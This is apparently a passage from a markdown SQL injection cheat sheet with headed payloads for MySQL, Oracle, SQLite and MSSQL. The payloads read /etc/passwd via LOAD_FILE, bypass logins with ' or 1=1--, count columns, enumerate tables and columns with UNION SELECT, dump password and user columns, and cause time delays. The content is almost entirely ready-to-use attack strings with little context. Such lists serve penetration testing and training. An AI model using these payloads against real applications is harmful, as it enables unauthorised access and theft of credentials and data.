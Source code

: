### Reading Files via SQLI - MySQL
e.g.  
```
SELECT LOAD_FILE('/etc/passwd')
```

## Oracle SQL
-> Bypass Authentication
```
' or 1=1--
```

-> get number columns
```
' order by 3--
```

-> get table name
```
' union select null,table_name,null from all_tables--
```

-> get column name
```
' union select null,column_name,null from all_tab_columns where table_name='<table_name>'--
```

-> dump
```
' union select null,PASSWORD||USER_ID||USER_NAME,null from WEB_USERS--
```

## SQLite Injection
-> extracting table names, not displaying standard sqlite tables
```
http://site.com/index.php?id=-1 union select 1,2,3,group_concat(tbl_name),4 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--
```
-> extracting table users  
```
http://site.com/index.php?id=-1 union select 1,2,3,group_concat(password),5 FROM users--
```

-> Reference  
https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf

## MSSQL Injection
-> Bypass Authentication
```
' or 1=1--
```
-> get version+delay
```
' SELECT @@version; WAITFOR DELAY '00:00:10'; —
```
